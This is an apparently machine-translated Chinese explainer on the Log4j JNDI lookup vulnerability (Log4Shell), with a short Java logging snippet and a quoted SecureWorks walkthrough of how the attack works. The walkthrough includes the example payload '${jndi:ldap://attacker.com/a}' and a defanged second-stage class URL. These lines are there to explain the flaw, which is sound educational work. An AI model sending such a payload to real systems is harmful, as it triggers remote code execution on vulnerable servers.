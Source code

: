好吧，现在拿起你的爆米花，坐好了…

![](img/b1d0686a885f67d767cf3134407b121c.png)

几年前，Log4j 中引入了 ***JNDI 查找特性*** ，它允许您从日志消息中进行 JNDI 查找。下面是一个很好的用例，例如，您在一个配置服务器上有一个集中的日志记录配置，您希望通过 JNDI 序列化它，并让它影响日志记录消息，比如日志记录路径或前缀。上面的代码看起来是这样的:

```
public static void main(*String*[] *args*) {
        LOGGER.error("{}: Error message: {}", "${jndi:ldap://logconfig/prefix}", error.getMessage());
    }
```

我们实际上是在传递一个 ***URL*** 而不是一个值。这不是 Java 能解决的问题。我们将这个传递给 Log4j。语法 ***${…}*** 指示 Log4j 实际搜索它。在这里，我们已经看到了它所有威严的弱点。

简单提示一下，Log4j 支持 ***不安全的 JNDI 查找*** ，这可能允许未经认证的*，*远程攻击者*，*以易受攻击的 Java 应用程序的权限通过 *LDAP、RMI、*和 *DNS* 执行任意代码*。但是，问题依然存在: ***如何？****

## *Log4j 漏洞如何被利用？*

*让我用一个来自[***SecureWorks***](https://www.secureworks.com/blog/log4j-vulnerability-faqs)的又好又简单的例子:*

> *1.威胁参与者可能会向易受攻击的机器发送一个包含恶意有效负载的特制字符串。系统记录的任何字段，如用户代理字符串、推荐人、用户名或电子邮件地址、设备名称或自由文本输入，都可能包含此字符串。*
> 
> *2.该字符串可能类似于**$ { JNDI:LDAP://attacker . com/a }**——其中 attacker.com 是威胁参与者控制的 **LDAP 服务器**——被传递给 Log4j 进行记录。*
> 
> *3.Log4j 漏洞由该有效载荷触发**并且易受攻击的系统使用 JNDI 来**查询**威胁参与者控制的 LDAP 服务器。***
> 
> *4.威胁参与者控制的 LDAP 服务器**用包括**远程 Java 类文件**的信息来响应**(例如，hXXp://second-stage . attack . com/exploit . class)。*
> 
> *5.这个 Java 类被**反序列化**(下载)和**执行**。*
